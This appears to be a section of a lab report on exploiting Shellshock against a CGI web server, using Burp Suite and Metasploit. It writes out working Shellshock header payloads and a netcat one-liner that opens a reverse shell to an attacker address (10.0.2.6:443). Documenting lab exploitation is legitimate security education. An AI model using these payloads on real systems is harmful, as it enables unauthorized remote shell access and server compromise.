The execution of the exploit is inspired by PentesterLab instructions and F4l13n5n0w\cite{fallensnow} performing the attack. The attack is performed as if nothing was known about the setup of the server. Firstly the request is analyzed in Burp Suite. The request trace can be seen on figure \ref{fig:http-requests}. 

\begin{figure} [ht]
    \centering
    
\includegraphics[width=\columnwidth]{../pictures/http-requests.png}
    \caption{Burp Suite inspection of http requests}
    \label{fig:http-requests}
\end{figure}


Here we have something interesting. It can be seen that CGI is possibly used to render some content. The index.html is analyzed and it is seen there is some inline javascript, shown on figure \ref{fig:inline-js}.

\begin{figure} [ht]
    \centering
    
\includegraphics[width=\columnwidth]{../pictures/html-inline-js-script.png}
    \caption{index.html inline javascript}
    \label{fig:inline-js}
\end{figure}

This confirms the assumption that CGI is utilized. Time to shellshock the server. Burp Suite is used to test customized requests. A new header is added to the requests with the contents: \\
\textbf{\textit{() \{ :;\}; this should give internal server error}}\\
 The response is indeed 500, and we know the server is vulnerable. Time to make the server do something. Then we try: \\  
 \textbf{\textit{() \{ :;\};echo \textbackslash"Content-type: text/plain\textbackslash"; echo; /bin/bash -c 'echo vulnerable'}} \\
 The response can be seen on figure \ref{fig:echo-vulnerable}.

 \begin{figure} [ht]
    \centering
    
\includegraphics[width=\columnwidth]{../pictures/echo-vulnerable.png}
    \caption{Server returning vulnerable}
    \label{fig:echo-vulnerable}
\end{figure}

It's cumbersome to send a http request every time. Instead lets establish a reverse shell. That enables the attacker to write shell code in his terminal as if he was on the server. This can be done with theinput: \\
\textbf{\textit{echo -e "HEAD /cgi-bin/status HTTP/1.1\textbackslash r\textbackslash nShellshock: () \{ :;\}; /usr/bin/nc 10.0.2.6 443 -e /bin/sh\textbackslash r\textbackslash nHost: vulnerable\textbackslash r\textbackslash nConnection: close\textbackslash r\textbackslash n\textbackslash r\textbackslash n" | nc 10.0.2.9 80}}\\

This uses netcat to bind the attackers shell to 10.0.2.9/cgi-bin/status. Furthermore the server will bind its shell to 10.0.2.6:443, which is the attacker. The attacker first needs to bind the port, and then he is ready. The reverse shell can be seen on figure \ref{fig:reverse-shell}.

\begin{figure} [ht]
    \centering
    
\includegraphics[width=\columnwidth]{../pictures/reverse-shell.png}
    \caption{Reverse shell}
    \label{fig:reverse-shell}
\end{figure}

As this is a known exploit there is tools developed to ease this process. Offensive Security's msfconsole\cite{metasploit} has many exploits gathered and there is also tooling for shellshock. First we configure various parameters, this is shown on figure \ref{fig:msfconsole-init}     

\begin{figure} [ht]
    \centering
    
\includegraphics[width=\columnwidth]{../pictures/msfconsole-init.png}
    \caption{msfconsole initialization}
    \label{fig:msfconsole-init}
\end{figure}
The target is defined and it's seen that it is indeed vulnerable. What msfconsole does in the vulnerability check is probably trying to bind a shell and see if the server hangs. Then we set the type of attack we want to launch and start exploiting. The exploit in progress can be seen on figure \ref{fig:msfconsole-exploit}. 

\begin{figure} [ht]
    \centering
    
\includegraphics[width=\columnwidth]{../pictures/msfconsole-exploit.png}
    \caption{msfconsole exploit}
    \label{fig:msfconsole-exploit}
\end{figure}

It is seen that the attacker can perform any desired command. Here different information of the infrastructure is retrieved and a new shell process is spawned. 